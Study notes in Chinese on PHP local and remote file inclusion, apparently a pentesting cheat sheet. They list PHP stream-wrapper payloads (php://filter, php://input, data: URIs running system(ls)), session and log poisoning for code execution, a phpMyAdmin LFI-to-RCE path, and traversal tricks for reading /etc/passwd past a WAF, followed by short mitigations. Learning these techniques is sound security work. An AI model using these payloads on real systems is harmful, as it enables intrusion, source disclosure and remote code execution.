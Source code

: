 # File Inclusion  
直接將包含文件作為xxx數據流來解析，場景就是攻擊者能控包含文件的變量  
常見危險函式：  
PHP: `include()`, `include_once()`, `require()`, `require_once()`, `fopen()`, `readfile()`  
JSP: `java.io.FileReader()`  
ASP: `includefile`  
php包含一個文件，會將該文件內容當作php代碼執行，因此不受檔名類型影響。  

# LFI  
能夠打開本地文件  

# RFI  
包含遠程文件，危害較大，但條件更嚴苛  
`php.ini`中設置  
1. allow_url_fopen = on (default: on)  
2. allow_url_include = on (default: off)  

# 包含手勢  
1. php偽協議  
```php
php://input
// 條件：allow_url_include = on
?file=php://input
POST data: xxx

php://filter
// 爆源碼
?file=php://filter/read=convert.base64-encode/resource=file.php

phar://path.zip/file.php
// php5.3.0up, 解析壓縮檔案

zip://path.zip%23file.php
// php5.3.0up, 功能與phar://一樣, 但需要指定絕對路徑, 而且要將#編碼成%23

data:URL schema
// php5.2up, php.ini中兩個設置都要on
?file=data:text/plain,<?php phpinfo();?>
?file=data:text/plain,<?php system(ls);?>
?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b (base64編碼phpinfo)
```  
試試了解更多協議：`file://`,`ftp://`,`zlib://`,`glob://`,`ssh2://`,`rar://`,`ogg://`,`expect://`  

2. include session  
session內容可控，session路徑已知...  
session路徑可以透過phpinfo中`session_save_path`得知  
常見存放位置：  
```php
/var/lib/php/sess_xxxxx
/var/lib/php/sessions/sess_xxxx
/tmp/sess_xxxxxx
/tmp/sessions/sess_xxxxx
```  
實際案例：  
phpmyadmin從LFI漏洞到RCE  
```php
xxx/phpmyadmin/index.php?target=xxx.php%253F/../../../../../var/lib/php/sessions/sess_xxxxxx
```  
3. include log  
log是否可讀  
以apache為例，request會被寫入`access.log`，錯誤就寫入`error.log`，默認儲存在`/var/log/apache2/`  
所以應用場景先透過配置文件得到路徑，還需要注意請求會不會被編碼，可以透過burp修改再送出，最後再包含log即可  
4. include ssh log  
是否可讀？  
默認路徑在`/var/log/apache2/access.log`,`/var/log/apache2/error.log`  
```php
ssh '<?php phpinfo();?>'@remotehost
// phpinfo代碼會出現在log裡，在進行include就好
```  
5. include environ  
6. include fd  
7. include temp file  
8. include uploaded file  

# WAF繞過  
* 相對路徑繞過  
WAF通常會檢測**連續**幾個`../`
```php
// 根據路徑解析

//不變
/./不變
///./..//.//////./ 混著用
```  
* 絕對路徑繞過，`/etc/passwd`會被擋  
```php
/aaa/../etc/passwd
/etc/./passwd
```

# 防禦手勢  
稍微總結一下上面的條件，可以得到下面mitigation的手法  
* php `open_basedir`  
* read permission  
* 過濾危險字符

